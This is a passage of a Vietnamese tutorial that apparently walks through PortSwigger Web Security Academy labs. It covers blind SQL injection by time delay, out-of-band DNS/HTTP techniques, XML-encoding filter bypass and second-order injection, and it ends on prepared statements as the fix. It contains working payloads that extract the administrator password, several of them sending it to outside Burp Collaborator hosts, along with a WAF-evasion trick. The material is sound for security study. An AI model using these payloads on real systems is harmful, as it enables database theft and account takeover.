| Microsoft  | `'%3B+WAITFOR+DELAY+'0:0:10'`              |
| PostgreSQL | `'%3B+SELECT+pg_sleep(10)`                 |
| MySQL      | `'%3B+SELECT+SLEEP(10)`                    |

> Trong đó, `%3B` là dấu `;`, các loại cơ sở dữ liệu trừ Oracle đều có thể thực hiện nhiều truy vấn trên cùng một dòng nên ta có thể loại bỏ Oracle. Thực hiện với từng gói tin ta có thể nhận thấy được khi thử với gói tin dạng PostgreSQL, ứng dụng phản hồi lâu hơn bình thường, từ đó ta xác nhận ứng dụng sử dụng cơ sở dữ liệu PostgreSQL.

7. Di chuyển sang tab **Intruder**, bài lab đã cho chúng ta biết trong cơ sở dữ liệu của ứng dụng có một bảng `users` có chứa cột `username` và `password`, từ đây ta có thể thực hiện tấn công bằng gói tin như sau để xác định độ dài mật khẩu của người dùng `administrator`, gói tin sẽ kích hoạt độ trễ 10 giây nếu độ dài mật khẩu không chính xác và ứng dụng sẽ chạy bình thường nếu độ dài chính xác:
```
'%3B+SELECT+CASE+WHEN+LENGTH(password)=§§+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
```
8. Chuyển sang tab **Payloads** để chỉnh sửa gói tin truyền vào mỗi lần thực hiện tấn công. Chọn *Payload type* là `Numbers` và điều chỉnh cho thông tin truyền vào sẽ chạy từ 1 đến 30.



9. Bảng kết quả sẽ xuất hiện và hiển thị số lượng phản hồi khi truyền payload `20` cao đột biến, điều này xảy ra khi BurpSuite chưa nhận được phản hồi của ứng dụng và tiếp tục gửi gói tin cho đến khi có phản hồi. Từ đó xác định được mật khẩu của người dùng `administrator` có độ dài là 20.



10. Sau khi biết được độ dài của mật khẩu, ta sẽ thực hiện Brute Force mật khẩu chính xác của người dùng `administrator`. Được biết mật khẩu sẽ chỉ chứa chữ cái thường và chữ số, ta chuyển về tab **Positions** sử dụng gói tin như sau để tấn công:

```
'%3B+SELECT+CASE+WHEN+SUBSTRING(password,§§,1)='§§'+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
```

11. Lần này, ta sẽ chọn *Attack type* là `Cluster bomb` để thực hiện tấn công vào 2 vị trí payload (ký hiệu §§) cùng 1 lúc. Chuyển qua tab **Payloads**, ở *Payload set* đầu tiên, ta sẽ chọn *Payload type* là `Numbers` chạy từ 1 đến 20 để duyệt toàn bộ vị trí của mật khẩu. Ở *Payload set* thứ 2, ta sẽ chọn *Payload type* là `Brute forcer`, chọn *Min length* và *Max length* là 1, sau đó chọn **Start attack** để thực hiện tấn công.
12. Với bảng thông tin được hiển thị, chuột phải vào *Response received* và chọn *Sort>Descending* để hiển thị các gói tin có số phản hồi cao đột biến. Bôi đen các cột này, chuột phải và chọn *Highlight* sau đó chuyển chế độ hiển thị về `Show only highlighted items`. Cuối cùng chuột phải vào *Payload 1* và chọn *Sort>Ascending*. Ta sẽ có được mật khẩu cho người dùng `administrator` là `03bgge7gqmqaj1mqmzs9`.



13. Quay trở lại tab **Proxy**, chọn **Intercept is on** để chuyển nó về **Intercept is off**, sau đó chọn *My account* để mở giao diện đăng nhập. Sử dụng tên người dùng là `administrator` và mật khẩu là `03bgge7gqmqaj1mqmzs9`. Sau khi đăng nhập thành công, ứng dụng sẽ thông báo hoàn thành bài lab.



# Khai thác lỗi SQL injection mù bằng các kỹ thuật ngoài băng tần (OAST)

Một ứng dụng có thể thực hiện cùng một truy vấn SQL như ví dụ trước nhưng thực hiện nó một cách không đồng bộ. Ứng dụng tiếp tục xử lý yêu cầu của người dùng trong luồng ban đầu và sử dụng một luồng khác để thực hiện truy vấn SQL bằng cookie theo dõi. Truy vấn này vẫn dễ bị tấn công SQL injection, nhưng không có kỹ thuật nào được mô tả cho đến nay sẽ hiệu quả. Phản hồi của ứng dụng không phụ thuộc vào việc truy vấn trả lại dữ liệu, xảy ra lỗi cơ sở dữ liệu hay thời gian thực hiện truy vấn.

Trong tình huống này, thường có thể khai thác lỗ hổng SQL injection mù bằng cách kích hoạt các tương tác mạng ngoài băng tần tới một hệ thống mà bạn kiểm soát. Các tương tác này có thể được kích hoạt dựa trên một điều kiện được tiêm vào để suy luận thông tin từng mảnh một. Hữu ích hơn, dữ liệu có thể được trích xuất trực tiếp trong tương tác mạng.

Một loạt các giao thức mạng có thể được sử dụng cho mục đích này, nhưng thường thì hiệu quả nhất là DNS (dịch vụ tên miền). Nhiều mạng sản xuất cho phép truy vấn DNS tự do, vì chúng cần thiết cho hoạt động bình thường của các hệ thống sản xuất.

Công cụ dễ sử dụng và đáng tin cậy nhất để sử dụng các kỹ thuật ngoài băng tần là Burp Collaborator. Đây là một máy chủ cung cấp các triển khai tùy chỉnh của nhiều dịch vụ mạng khác nhau, bao gồm DNS. Nó cho phép bạn phát hiện khi nào các tương tác mạng xảy ra do việc gửi các payloads cá nhân đến một ứng dụng có lỗ hổng. Burp Suite Professional bao gồm một máy khách tích hợp được cấu hình để làm việc với Burp Collaborator ngay từ đầu. Để biết thêm thông tin, hãy xem tài liệu hướng dẫn của Burp Collaborator.

Các kỹ thuật để kích hoạt một truy vấn DNS cụ thể đối với loại cơ sở dữ liệu đang sử dụng. Ví dụ, đầu vào sau đây trên Microsoft SQL Server có thể được sử dụng để gây ra một truy vấn DNS trên một miền được chỉ định:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Điều này khiến cơ sở dữ liệu thực hiện một truy vấn đối với miền sau:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

Bạn có thể sử dụng Burp Collaborator để tạo một miền con duy nhất và kiểm tra máy chủ Collaborator để xác nhận khi có bất kỳ truy vấn DNS nào xảy ra.

# Lab: Blind SQL injection with out-of-band interaction

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Để giải quyết bài lab, hãy khai thác lỗ hổng SQL injection để gây ra một truy vấn DNS tới Burp Collaborator.

> ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa sẽ chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

Sau khi xác nhận được cách kích hoạt các tương tác ngoài băng tần, bạn có thể sử dụng kênh ngoài băng tần để trích xuất dữ liệu từ ứng dụng có lỗ hổng. Ví dụ:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Đầu vào này đọc mật khẩu của người dùng Administrator, thêm một miền phụ duy nhất của Collaborator, và kích hoạt một truy vấn DNS. Truy vấn này cho phép bạn xem mật khẩu đã được thu thập:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Các kỹ thuật ngoài băng tần (OAST) là một cách mạnh mẽ để phát hiện và khai thác lỗ hổng SQL injection mù, nhờ vào khả năng thành công cao và khả năng trích xuất dữ liệu trực tiếp trong kênh ngoài băng tần. Vì lý do này, các kỹ thuật OAST thường được ưu tiên ngay cả trong những tình huống mà các kỹ thuật khai thác mù khác cũng hoạt động.

> ## Lưu ý:
> Có nhiều cách khác nhau để kích hoạt các tương tác ngoài băng tần, và các kỹ thuật khác nhau áp dụng cho các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng gian lận SQL injection.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, reload lại ứng dụng và thông báo hoàn thành bài lab sẽ hiện lên.

# Lab: Blind SQL injection with out-of-band data exfiltration

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Cơ sở dữ liệu chứa một bảng khác có tên là users, với các cột có tên là username và password. Bạn cần khai thác lỗ hổng SQL injection mù để tìm ra mật khẩu của người dùng quản trị viên.

Để giải quyết bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.

> ## Lưu ý:
> Để ngăn nền tảng Academy bị sử dụng để tấn công các bên thứ ba, tường lửa của chúng tôi chặn các tương tác giữa các bài lab và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.1mo5cp8g7sxp8fjkbus64e54jvpmdc11.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, sau đó di chuyển đến tab **Collaborator**. Ở đây sẽ hiển thị các thông tin được trao đổi giữa server của ứng dụng và BurpSuite Collaborator. Ở đây khi truy cập vào gói tin HTTP, ta có thể xem được phản hồi của server trả về mật khẩu của người dùng `administrator` khi xem mục **Request to Collaborator** (`zkva3bj82sf6v5exkb3l`).



8. Sử dụng thông tin đã lấy được để đăng nhập ứng dụng bằng cách chọn **My account**. Sau đó ứng dụng sẽ thông báo đăng nhập thành công và hoàn thành bài lab.

# SQL injection trong các ngữ cảnh khác nhau

Trong các bài lab trước, bạn đã sử dụng chuỗi truy vấn để tiêm payload SQL độc hại của mình. Tuy nhiên, bạn có thể thực hiện các cuộc tấn công SQL injection bằng bất kỳ đầu vào nào có thể kiểm soát được và được ứng dụng xử lý dưới dạng truy vấn SQL. Ví dụ, một số trang web nhận đầu vào ở định dạng JSON hoặc XML và sử dụng nó để truy vấn cơ sở dữ liệu.

Các định dạng khác nhau này có thể cung cấp các cách khác nhau để bạn làm rối các cuộc tấn công vốn bị chặn do WAF và các cơ chế phòng thủ khác. Các triển khai yếu thường tìm kiếm các từ khóa SQL injection phổ biến trong yêu cầu, vì vậy bạn có thể vượt qua các bộ lọc này bằng cách mã hóa hoặc thoát ký tự trong các từ khóa bị cấm. Ví dụ, đoạn SQL injection dựa trên XML sau đây sử dụng một chuỗi thoát XML để mã hóa ký tự S trong từ SELECT:

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

Đoạn này sẽ được giải mã phía máy chủ trước khi được truyền đến trình thông dịch SQL.

# Lab: SQL injection with filter bypass via XML encoding

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection trong tính năng kiểm tra hàng tồn kho. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Cơ sở dữ liệu chứa một bảng `users`, trong đó có tên người dùng và mật khẩu của các người dùng đã đăng ký. Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL injection để truy xuất thông tin đăng nhập của người dùng admin, sau đó đăng nhập vào tài khoản của họ.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn một mặt hàng bất kỳ, sau đó kéo xuống cuối trang và chọn **Check Stock**.
4. Khi chuyển sang tab *Proxy>HTTP history*, ta sẽ thấy một gói tin POST `/product/stock`. Chuột phải và chọn **Send to Repeater**, sau đó chuyển qua tab **Repeater**.



5. Có thể thấy, ứng dụng sử dụng `productId` và `storeId` để thực hiện truy vấn. Từ điều này ta có thể mường tượng cấu trúc dữ liệu được thiết kế để mỗi cửa hàng sẽ là một bảng riêng, chứa nhiều `productId` và bản thân bảng đó sẽ có một `storeId`. Điều này đồng nghĩa với việc có thể truy vấn các bảng khác từ mục `<storeId>`.
6. Được biết truy vấn sẽ chỉ trả về 1 cột, ta sẽ sử dụng `UNION SELECT NULL` nối tiếp vào giá trị hiện có của `storeId` và chọn **Send** để thử nghiệm việc lấy thông tin.
7. Ứng dụng sẽ hiện thông báo `"Attack detected"` và không trả về kết quả. Ta có thể khắc phục điều này bằng một Extension có tên là Hackvertor, bôi đen giá trị của `storeId`, chuột phải và chọn *Extensions>Hackvertor>Encode>hex_entities*. Lần này khi chọn **Send**, ứng dụng sẽ trả về giá trị `null` phía sau số lượng sản phẩm.
8. Thay đổi thông tin gói tin để thực hiện lấy thông tin đăng nhập của người dùng như sau:
```sql
UNION SELECT password FROM users WHERE username='administrator'
```
9. Sau khi chọn **Send**, ứng dụng sẽ trả về mật khẩu của người dùng `administrator`. Chọn **My account** trên giao diện ứng dụng và đăng nhập bằng thông tin vừa nhận được, ứng dụng sẽ thông báo đăng nhập thành công và hoàn thành bài lab.



# **Tấn công SQL injection bậc hai**

SQL injection bậc nhất xảy ra khi ứng dụng xử lý đầu vào từ yêu cầu HTTP và kết hợp đầu vào này vào một truy vấn SQL theo cách không an toàn.

SQL injection bậc hai xảy ra khi ứng dụng nhận đầu vào từ yêu cầu HTTP và lưu trữ nó để sử dụng sau này. Điều này thường được thực hiện bằng cách đặt đầu vào vào cơ sở dữ liệu, nhưng không có lỗ hổng xảy ra tại thời điểm dữ liệu được lưu trữ. Sau đó, khi xử lý một yêu cầu HTTP khác, ứng dụng truy xuất dữ liệu đã lưu và kết hợp nó vào một truy vấn SQL theo cách không an toàn. Vì lý do này, SQL injection bậc hai còn được gọi là SQL injection lưu trữ.

SQL injection bậc hai thường xảy ra trong các tình huống khi các nhà phát triển nhận thức được các lỗ hổng SQL injection và do đó xử lý đầu vào ban đầu một cách an toàn khi đặt vào cơ sở dữ liệu. Khi dữ liệu sau đó được xử lý, nó được coi là an toàn vì trước đó đã được đặt vào cơ sở dữ liệu một cách an toàn. Tại thời điểm này, dữ liệu được xử lý theo cách không an toàn, vì nhà phát triển sai lầm khi cho rằng nó đáng tin cậy.

# **Cách ngăn chặn SQL injection**

Bạn có thể ngăn chặn hầu hết các trường hợp SQL injection bằng cách sử dụng truy vấn tham số thay vì ghép chuỗi trong truy vấn. Những truy vấn tham số này còn được gọi là "prepared statements".

Đoạn mã sau đây dễ bị tấn công SQL injection vì đầu vào của người dùng được ghép trực tiếp vào truy vấn:

```java
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Bạn có thể viết lại đoạn mã này theo cách ngăn chặn đầu vào của người dùng can thiệp vào cấu trúc truy vấn:

```java
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```